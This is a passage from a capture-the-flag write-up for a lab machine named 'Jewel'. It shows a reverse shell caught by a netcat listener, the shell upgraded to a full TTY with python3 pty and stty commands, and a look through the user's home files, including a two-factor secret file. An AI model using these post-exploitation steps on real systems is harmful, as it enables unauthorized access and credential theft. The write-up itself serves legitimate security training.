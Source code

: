 After sending my payload and sending another GET request for the profile page I got a connection back at my waiting netcat listener. I used the program `script` to save a transcript of all commands that I was about to run in the netcat shell, and made sure my listener was running in bash rather than `zsh`, since the latter causes issues when setting `stty raw -echo` when upgrading shells.

```text
bill@jewel:~/blog$ which python3
which python3
/usr/bin/python3
bill@jewel:~/blog$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
bill@jewel:~/blog$ ^Z
[1]+  Stopped                 nc -lvnp 8099
zweilos@kali:~/htb/jewel$ stty raw -echo
nc -lvnp 8099:~/htb/jewel$ 

bill@jewel:~/blog$ export TERM=xterm-256color
bill@jewel:~/blog$
```

Upgraded my shell so I could use `ctrl-c`, arrow keys for history, etc.

```text
bill@jewel:~$ id && hostname
uid=1000(bill) gid=1000(bill) groups=1000(bill)
jewel.htb
```

I was logged in a bill, no special groups

```text
bill@jewel:~/blog$ cd /home
bill@jewel:/home$ ls
bill
bill@jewel:/home$ cd bill/
bill@jewel:~$ ls -la
total 52
drwxr-xr-x  6 bill bill 4096 Sep 17 14:10 .
drwxr-xr-x  3 root root 4096 Aug 26 09:32 ..
lrwxrwxrwx  1 bill bill    9 Aug 27 11:26 .bash_history -> /dev/null
-rw-r--r--  1 bill bill  220 Aug 26 09:32 .bash_logout
-rw-r--r--  1 bill bill 3526 Aug 26 09:32 .bashrc
drwxr-xr-x 15 bill bill 4096 Sep 17 17:16 blog
drwxr-xr-x  3 bill bill 4096 Aug 26 10:33 .gem
-rw-r--r--  1 bill bill   43 Aug 27 10:53 .gitconfig
drwx------  3 bill bill 4096 Aug 27 05:58 .gnupg
-r--------  1 bill bill   56 Aug 28 07:00 .google_authenticator
drwxr-xr-x  3 bill bill 4096 Aug 27 10:54 .local
-rw-r--r--  1 bill bill  807 Aug 26 09:32 .profile
lrwxrwxrwx  1 bill bill    9 Aug 27 11:26 .rediscli_history -> /dev/null
-r--------  1 bill bill   33 Feb 14 14:27 user.txt
-rw-r--r--  1 bill bill  116 Aug 26 10:43 .yarnrc
```

There was a few interesting hidden files in `bill`'s home folder, including one called `.google_authenticator`.
